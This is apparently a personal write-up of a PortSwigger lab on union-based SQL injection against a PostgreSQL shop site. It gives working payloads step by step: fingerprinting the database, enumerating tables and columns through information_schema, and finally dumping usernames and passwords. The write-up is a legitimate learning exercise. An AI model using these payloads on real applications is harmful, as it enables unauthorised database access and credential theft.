


# SQL injection attack, listing the database contents on non-Oracle databases

**Category:** Web Exploitation — SQL Injection  
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle`

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

---

## Reconnaissance

- What does the application do? 
    - Still the same basic shop website
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - there is no input field (account login is back) but the user can input text into the url as before. The real input for the sqli happens in the cookie though.
- What happens with normal input?
    - inputting a normal word instead of the given categories prints the word on the page and shows no results, inputting the given categories works like it should

---

## Analysis

#### Technology Stack
```
Database:   PostgreSQL as per Fingerprint
Input:      URL
Behavior:   Union-based SQLi
```

#### Vulnerability

- What exactly is vulnerable and why?
    
As per the lab instructions the category filter is vulnerable. 
It probably looks like this:
```sql
SELECT * FROM products WHERE category = '[input]'
```

---

## Solution

### Step 1 - Fingerprinting the database

Doing the `ORDER BY` check shows the database has two columns and the comment `--` works so the database is not MySQL.


Confirming there are two string columns:
```sql
category=' UNION SELECT 'a', 'a'--
```
The following confirms it is a PostgreSQL-database:
```sql
category=' UNION SELECT null,version()-- 
```



---

### Step 2 - Enumeration

This returns every table:
```sql
category=' UNION SELECT table_name, NULL from information_schema.tables-- 
```
this returns a lot of tables. Most start with `pg_` so we can ignore these. Searching for user reveals some. One of them is named `users_zgbbmc` which could be a users table. 

To get every column a similiar input can be used (quite messy):

```sql
category=' UNION SELECT column_name, NULL from information_schema.columns--
```
One column is called `username_klsvaw` and another is called `password_kdvhcr` these look promising.

A bit cleaner to get the correct columns:
```sql
category=' UNION SELECT column_name, NULL from information_schema.columns WHERE table_name='users_zgbbmc'-- -
```
I added a `-- -` instead of `--` so I can see that I actually leave a space after `--` in case I run into MySQL.


### Step 3 - Extract / Exploit
Final step:
```sql
category=' UNION SELECT password_kdvhcr, username_klsvaw from users_zgbbmc-- -
```



---

## Real World Impact

This showcased a perfect example of how dangerous the inbuilt functions of the databases are. Some simple fingerprinting followed by the correct queries to reveal all the databases, revealed the database with users and passwords. In a real scenario this is catastrophic for any business. Now add to this that not only the usernames and passwords are revealed but any database connected to the website and it becomes even more obvious how dangerous this is.

---

## Learnings

- Mutiple enumeration steps are needed. First step is querying the names and finding the suspicious ones. Second step is querying the columns. `information_schema` is the database describing itself. 
- The inbuilt functions of databases are useful but dangerous
